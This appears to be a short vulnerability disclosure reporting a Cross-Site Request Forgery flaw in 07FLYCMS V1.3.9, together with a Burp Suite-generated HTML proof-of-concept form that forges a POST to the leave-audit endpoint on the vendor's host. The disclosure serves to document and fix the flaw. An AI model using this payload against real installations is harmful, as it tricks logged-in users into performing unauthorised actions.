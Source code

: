 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaLeave/audit_send.html

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaLeave/audit_send.html" method="POST">
      <input type="hidden" name="id" value="11" />
<input type="hidden" name="workflow_id" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

